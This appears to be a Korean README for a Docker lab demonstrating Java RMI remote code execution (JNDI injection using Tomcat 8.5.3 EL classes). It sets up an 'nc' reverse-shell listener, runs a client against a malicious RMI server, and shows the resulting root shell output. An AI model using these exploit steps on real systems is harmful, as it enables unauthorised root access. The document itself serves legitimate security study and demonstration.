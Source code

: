 # RMI-RCE-Demo
ref. https://github.com/zer0-map/JNDI-Injection-Series/tree/main

![image-001](/images/img-001.png)

## 설치 및 공격자 리버스 셸 대기

1. docker-compose 실행
    ```bash
    $ docker-compose up -d
    ```

2. 호스트 PC(공격자) 리버스 셸 준비
    ```bash
    $ nc -lv 9999
    ```

## Exploit

1. 피해자 PC(rmi-client 컨테이너) 접속
    ```bash
    $ docker exec -it rmi-client /bin/bash
    ```

2. Exploit 수행(악성 rmi-server 요청) 
    ```bash
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiClient rmi-server
    ```

## 리버스 셸 검증
1. 호스트 PC에서 리버스 셸 연결 확인
    ```bash
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    $ ls -al
    total 24
    drwxr-xr-x 1 root root 4096 Aug  3 20:02 .
    drwxr-xr-x 1 root root 4096 Aug  3 20:12 ..
    drwxr-xr-x 1 root root 4096 Aug  3 20:03 build
    drwxr-xr-x 2 root root 4096 Aug  3 18:35 libs
    drwxr-xr-x 2 root root 4096 Aug  3 19:50 src
    ```

## 기타 명령어
- 빌드
    ```bash
    $ javac -d ./build -classpath libs/tomcat-embed-el-8.5.3.jar:libs/tomcat-catalina-8.5.3.jar ./src/RmiClient.java 
    $ javac -d ./build -classpath libs/tomcat-embed-el-8.5.3.jar:libs/tomcat-catalina-8.5.3.jar ./src/RmiServer.java 
    ```

- 실행
    ```bash
    # RmiServer
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiServer
    # RmiClient
    # [HOST_IP]에 RmiServer가 동작 중인 Host의 IP를 작성한다.
    $ java -classpath build:libs/tomcat-catalina-8.5.3.jar:libs/tomcat-embed-el-8.5.3.jar RmiClient [HOST_IP]
    ```bash
